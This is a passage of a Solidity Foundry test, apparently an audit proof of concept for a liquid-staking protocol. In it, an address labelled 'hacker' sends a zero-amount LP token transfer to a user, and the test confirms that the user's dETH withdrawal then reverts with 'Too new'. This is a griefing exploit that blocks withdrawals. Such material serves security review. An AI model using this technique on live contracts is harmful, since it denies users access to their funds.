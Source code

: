 ```
            stakeAmountsForVaults
        );
        assertEq(address(manager.savETHVault()).balance, 24 ether);

        // Deposit 4 ETH into giant fees and mev
        vm.startPrank(feesAndMevUserOne);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        vm.stopPrank();

        assertEq(address(giantFeesAndMevPool).balance, 4 ether);
        stakeAmountsForVaults[0] = getUint256ArrayFromValues(4 ether);
        giantFeesAndMevPool.batchDepositETHForStaking(
            getAddressArrayFromValues(address(manager.stakingFundsVault())),
            getUint256ArrayFromValues(4 ether),
            blsKeysForVaults,
            stakeAmountsForVaults
        );

        // Ensure we can stake and mint derivatives
        stakeAndMintDerivativesSingleKey(blsPubKeyOne);

        IERC20 dETHToken = savETHVault.dETHToken();

        vm.startPrank(accountFive);
        dETHToken.transfer(address(savETHVault.saveETHRegistry()), 24 ether);
        vm.stopPrank();

        LPToken[] memory tokens = new LPToken[](1);
        tokens[0] = savETHVault.lpTokenForKnot(blsPubKeyOne);

        LPToken[][] memory allTokens = new LPToken[][](1);
        allTokens[0] = tokens;

        stakeAmountsForVaults[0] = getUint256ArrayFromValues(24 ether);

        // User will not have any dETH to start
        assertEq(dETHToken.balanceOf(savETHUser), 0);

        // Warp ahead -> savETHUser eligible to dETH
        vm.warp(block.timestamp + 2 days);

        // Send 0 tokens to savETHUser so he cannot withdrawDETH
        address hacker = address(0xdeadbeef);
        vm.startPrank(hacker);
        giantSavETHPool.lpTokenETH().transfer(savETHUser, 0);
        vm.stopPrank();
        address[] memory addresses = getAddressArrayFromValues(address(manager.savETHVault()));

        vm.startPrank(savETHUser);
        // Validate withdrawDETH will revert  
        vm.expectRevert("Too new");
        giantSavETHPool.withdrawDETH(addresses, allTokens, stakeAmountsForVaults);
        vm.stopPrank();    
    }
```
